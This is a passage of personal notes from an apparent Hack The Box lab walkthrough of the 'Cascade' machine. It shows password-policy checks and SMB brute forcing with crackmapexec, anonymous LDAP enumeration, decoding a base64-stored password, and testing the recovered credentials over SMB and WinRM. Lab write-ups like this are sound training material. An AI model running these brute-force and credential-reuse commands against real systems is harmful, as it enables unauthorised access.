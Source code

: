 `sort -u t > passwords`

Before running this brute force, check the password policy. 

Can check with #crackmapexec 

`crackmapexec smb 10.10.10.182 --pass-pol`

![[Pasted image 20250112190748.png]]
Min password length is 5
No lockout threshold. G2G.

Time to bruteforce with #crackmapexec 

`crackmapexec smb 10.10.10.182 -u users.lst -p passwords`

While this is bruteforcing, enumerate #LDAP 

Using #ldapsearch 

`ldapsearch -x -h 10.10.10.182 -s base namingcontexts` to get what the domain is. DC=cascade,DC=local

![[Pasted image 20250112191216.png]]
Use that info for next query:

`ldapsearch -x -h 10.10.10.182 -s sub -b 'DC=cascade,DC=local' > tmp

Sorting this information by # of times it occurs. Checking for anomalies. 

`cat tmp | awk '{print $1}' | sort | uniq -c | sort -nr`

![[Pasted image 20250112191706.png]]

Using this string to search through the entire ldapsearch and get a password. 

![[Pasted image 20250112191848.png]]
and getting sam account name: r.thompson

![[Pasted image 20250112191934.png]]

Decode base64 password with 

`echo -n clk0bjVldmE= | base64 -d`

![[Pasted image 20250112200612.png]] 

Pass is: rY4n5eva

Testing these creds with #crackmapexec 

`crackmapexec smb 10.10.10.182 -u r.thompson -p rY4n5eva`

![[Pasted image 20250112200824.png]]
Login, but no pwned. 

Try with winrm 

`crackmapexec winrm 10.10.10.182 -u r.thompson -p rY4n5eva`
